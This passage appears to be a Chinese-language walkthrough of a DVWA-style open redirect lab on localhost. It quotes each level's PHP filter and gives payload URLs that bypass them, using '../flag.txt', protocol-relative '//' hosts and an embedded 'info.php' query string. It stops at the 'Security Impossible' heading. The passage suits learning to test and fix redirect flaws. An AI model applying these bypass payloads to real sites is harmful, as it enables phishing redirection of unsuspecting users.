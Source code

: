 

创建一个flag.txt文件在`open_redirect`留作备用。



```
http://127.0.0.1/vulnerabilities/open_redirect/source/low.php?redirect=../flag.txt
```

```
http://127.0.0.1/vulnerabilities/open_redirect/source/low.php?redirect=https://www.baidu.com
```

都成功重定向了。



### Security Medium

源代码查看过滤掉了http

```php
if (preg_match ("/http:\/\/|https:\/\//i", $_GET['redirect']))
```



我们可以使用//，默认是和本站采取相同的协议进行访问

```
http://127.0.0.1/vulnerabilities/open_redirect/source/medium.php?redirect=//www.baidu.com
```

当然访问本地的文件`flag.txt`也是可以成功的。

```
http://127.0.0.1/vulnerabilities/open_redirect/source/medium.php?redirect=../flag.txt
```



### Security High

判断是否有info.php，就是判断是否重定向回info.php，

```php
if (strpos($_GET['redirect'], "info.php") !== false)
```

包含即可，直接构造

```
http://127.0.0.1/vulnerabilities/open_redirect/source/high.php?redirect=https://www.baidu.com?id=info.php
```

```
http://127.0.0.1/vulnerabilities/open_redirect/source/high.php?redirect=../flag.txt?id=info.php
```

都执行成功了！



### Security Impossible

